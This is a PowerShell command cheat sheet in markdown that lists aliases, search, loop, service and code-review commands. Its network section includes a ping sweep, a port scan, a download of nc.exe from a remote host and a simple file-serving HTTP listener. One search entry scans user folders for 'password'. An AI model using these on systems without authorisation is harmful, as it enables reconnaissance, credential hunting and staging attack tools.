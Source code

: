 ```yaml
---
title: Powershell
category: Misc
order: 8
---
```


>**Help and Finding Commands**

Function | Command
------------- | -------------
help | <code> help [cmdlet] -detailed, -example, -ful </code>
Properties and Methods of object or command | <code> [object/command] | gm </code>

>**Syntax**

Function | Command
------------- | -------------
List Commands | <code>get-command <set*, *process, ...> </code>
ls/dir | <code>Get-ChildItem (ls, dir, gci) </code>
copy/cp | <code>Copy-Item (cp, copy, cpi) </code>
move/mv | <code>Move-Item (mv, move, mi) </code>
find/findstr/grep | <code>Select-String (sls) </code>
help/man | <code>Get-Help (man, help) </code>
type/cat | <code>Get-Content (cat, type, gc) </code>
ps/tasklist | <code>Get-Process (ps, gps) </code>
cd/pwd | <code>Get-Location  (cd, pwd) </code>
History | <code>Get-History (history)  </code>
Check Command Before Execution | <code>-whatif </code>
Create Subset Objects | <code>get-service | select servicename, displayname </code>



>**Inventory, File Search, and Counting**

Function | Command
--------- | -------
Environment Variables | <code>ls env:, ls variable: </code>
Search for Files | <code>ls -r [dir] [string] 2> $null| % {echo $_.fullname} </code>
Search for text in files | <code>ls -r c:\users | % {select-string -path $_ -pattern password} 2>$null </code>

>**Network and Firewall**

Function | Command
--------- | -------
Ping Sweep | <code>1..255 | % {echo "192.168.2.$_"; ping -n 1 -w 100 192.168.2.$_ | select-string ttl} </code>
Port Scan | <code>1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("192.168.1.1", $_)) "Port $_ is open" } 2>$null </code>
Web Client Download | <code>(New-Object System.Net.WebClient).DownloadFIle("http://10.10.10.10/nc.exe", "c:\nc.exe") </code>

SimpleHTTPServer: 
{% highlight powershell %}
$Hso = New-Object Net.HttpListener 
$Hso.Prefixes.Add(""http://+:8000/"")
$Hso.Start()
While ($Hso.IsListening) {
$HC = $Hso.GetContext()
$HRes = $HC.Response
$HRes.Headers.Add(""Content-Type"",""text/plain"")
$Buf = [Text.Encoding]::UTF8.GetBytes((GC (Join-Path $Pwd ($HC.Request).RawUrl)))
$HRes.ContentLength64 = $Buf.Length
$HRes.OutputStream.Write($Buf,0,$Buf.Length)
$HRes.Close()
}
$Hso.Stop()
{% endhighlight %}


>**Piping and Loops**

Function | Command
--------- | -------
Format Output | <code>ps | format-list -property name, id, starttime (or * for all) </code>
Loops | <code>ForEach-Object { $_ }  <br> 1..10 | % {echo $_} </code>

>**Piping and Loops**

Function | Command
--------- | -------
Create a Service | <code>PS C:\>New-Service -Name "TestService" -BinaryPathName "C:\WINDOWS\System32\svchost.exe -k netsvcs" -StartupType manual </code>
Start a Service | <code>Start-Service TestService </code>

>**Code Review**

Function | Command
-------- | -------
Find text in a file and create a spreadsheet of results | <code> Get-ChildItem -recurse | Select-String -pattern "STOMP" | select path,filename,pattern,line,linenumber | Export-Csv Stomp.csv </code>
Find text in a type of file |  <code> Get-ChildItem -recurse |  Where-Object {$_.Extension -eq ".java"} | Select-String -pattern "@Web
Servlet" | select path,filename,pattern,line,linenumber | Export-Csv ServletMappingoutput.csv </code>
